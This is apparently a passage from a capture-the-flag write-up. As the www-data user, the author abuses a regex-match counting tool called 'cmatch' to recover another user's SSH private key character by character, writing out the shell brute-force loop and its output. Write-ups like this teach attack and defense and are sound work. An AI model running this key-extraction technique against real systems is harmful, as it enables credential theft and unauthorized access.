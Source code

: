 
The next line is 22 bytes long:

    
    
    www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{21}\n.{40}'
    Found matches: 0
    www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{21}\n.{30}'
    Found matches: 0
    www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{21}\n.{20}'
    Found matches: 1
    www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{21}\n.{25}'
    Found matches: 0
    www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{21}\n.{22}'
    Found matches: 1
    www-data@fingerprint:/$ cmatch /home/john/.ssh/id_rsa '^-----BEGIN.{21}\n.{23}'
    Found matches: 0
    

Just knowing the length isn’t enough. But it does show that I can build a
string and test one character at a time.

For example, I’ll use this simple loop to look for the first character of the
second line:

    
    
    python -c "import string; print('\n'.join(string.ascii_letters))" 
    | while read c; do 
        cmatch /home/john/.ssh/id_rsa "^-----BEGIN.{21}\n${c}" 
        | grep -qv "Found matches: 0" && echo $c; 
    done
    

The Python command will print the ascii letters one per line. The `while` will
read them into `c`, and then I’ll run `cmatch`. The result removes the string
for no matches, and if something else if found (`grep` returns success), it
will echo the character. It works!

    
    
    www-data@fingerprint:/$ python -c "import string; print('\n'.join(string.ascii_letters))" | while read c; do cmatch /home/john/.ssh/id_rsa "^-----BEGIN.{21}\n${c}" | grep -qv "Found matches: 0" && echo $c; done 
    P
    

The first character is P. I can add “P” to the regex and check the next
characters:

    
    
    www-data@fingerprint:/$ python -c "import string; print('\n'.join(string.ascii_letters))" | while read c; do cmatch /home/john/.ssh/id_rsa "^-----BEGIN.{21}\nP${c}" | grep -qv "Found matches: 0" && echo $c; done 
    r
    www-data@fingerprint:/$ python -c "import string; print('\n'.join(string.ascii_letters))" | while read c; do cmatch /home/john/.ssh/id_rsa "^-----BEGIN.{21}\nPr${c}" | grep -qv "Found matches: 0" && echo $c; done 
    o
    